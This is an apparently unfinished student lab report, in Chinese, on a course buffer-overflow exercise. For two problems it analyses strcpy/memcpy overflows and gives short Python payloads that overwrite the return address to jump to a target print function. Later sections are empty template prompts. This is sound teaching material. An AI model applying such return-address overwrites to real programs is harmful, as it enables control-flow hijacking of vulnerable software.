


# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
    - `func`函数中调用了`strcpy`, 可以用来注入恶意字符串
    - 在`func1`函数中，通过`x/s 0x402004`, 发现0x402004这个地址储存的就是"Yes!I like ICS!"，即为我们的目标输出
    - 而分析`func`易知我们的输入字符串会被copy到`rbp-8`的位置，根据栈上的情况，只需要构造长度为16B的任意字符串再拼接func1地址`0x401216`，即可使return address被覆盖为`0x401216`

- **解决方案**：
``` Python
func1_addr = b'\x16\x12\x40\x00\x00\x00\x00\x00'  # 小端序
payload = b'A' * 16 + func1_addr

with open('ans1.txt', 'wb') as f:
    f.write(payload)
```

- **结果**：

### Problem 2:
- **分析**：
    - `func`函数中调用了`memcpy`, 可以用来注入恶意字符串
    - 在`func2`函数中，通过`x/s 0x40203b`, 发现0x40203b这个地址储存的就是"Yes!I like ICS!"，即为我们的目标输出，我们的目标可以确定为将memcpy的return value覆盖为打印"Yes!I like ICS!"这一块代码的起始地址，即为0x40124c
    - 栈的结构与problem1类似：我们的输入字符串会被copy到`rbp-8`的位置，根据栈上的情况，只需要构造长度为16B的任意字符串再拼接func1地址`0x40124c`，即可使return address被覆盖为`0x40124c`

- **解决方案**：
```Python
func1_addr = b'\x4c\x12\x40\x00\x00\x00\x00\x00'  # 小端序
payload = b'A' * 16 + func1_addr

with open('ans2.txt', 'wb') as f:
    f.write(payload)
```

- **结果**：

### Problem 3: 
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

### Problem 4: 
- **分析**：体现canary的保护机制是什么
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
